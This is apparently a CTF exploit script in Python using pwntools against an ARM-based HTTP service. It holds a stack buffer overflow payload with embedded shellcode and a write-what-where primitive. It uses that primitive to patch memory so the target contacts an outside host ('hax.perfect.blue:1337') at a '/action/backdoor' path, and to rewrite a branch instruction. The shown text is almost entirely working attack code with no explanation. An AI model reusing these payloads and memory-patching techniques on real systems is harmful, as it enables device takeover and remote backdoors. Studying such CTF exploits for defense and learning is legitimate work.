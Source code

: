 ```python
    # r = io.connect(("127.0.0.1", 5555))
    r = remote("8.210.44.156", 49392)

    padding = 58

    r.send(b"GET /")
    time.sleep(0.2)
    for x in b"backdoor":
        n = x - padding
        r.send(b"P" * n)
        time.sleep(0.2)

    payload = bytearray(stack_snapshot[0x36:])
    payload[0:2] = b"XD"
    payload[2:22] = shellcode
    payload[22:26] = p32(0xE51FF004)  # ldr pc, [pc, #-4]
    payload[26:30] = payload[58:62]
    payload[58:62] = p32(bof_start + 0x36 + 2)
    payload += b"Z" * (514 - padding - len(payload))

    r.send(payload)
    r.close()


def write_what_where(where, what):
    log.info("WRITE %08x <- %08x", where, what)

    def frobnicate(x):
        return (x & 0xFFF) | (x << 4 & 0xF0000)

    magic = [
        0xE3001000 + frobnicate(what & 0xFFFF),
        0xE3401000 + frobnicate(what >> 16 & 0xFFFF),
        0xE3002000 + frobnicate(where & 0xFFFF),
        0xE3402000 + frobnicate(where >> 16 & 0xFFFF),
        0xE5821000,
    ]
    shellcode = b"".join((p32(x) for x in magic))
    run_shellcode(shellcode)


def upload(addr, content):
    content_len = len(content)
    if content_len % 4 != 0:
        content = content.ljust((content_len + 3) // 4 * 4, b"\x00")

    for i in range(0, len(content), 4):
        write_what_where(addr + i, u32(content[i : i + 4]))


upload(0x63000000, b"http://hax.perfect.blue:1337\x00")
upload(0x60E7C17C, p32(0x63000000))

upload(0x63001000, b"/action/backdoor\x00")
upload(0x60E7BB60, p32(0x63001000))
upload(0x60E7C1B0, p32(0x63001000))
upload(0x60E7BB64, p32(16))
upload(0x60E7C1B4, p32(16))

# asm("B 0x6004D26c", vma=0x6004D20C)
upload(0x6004D20C, b"\x16\x00\x00\xea")

# asm("movw r3, #0xeaa8\nmovt r3, #0x6004")
```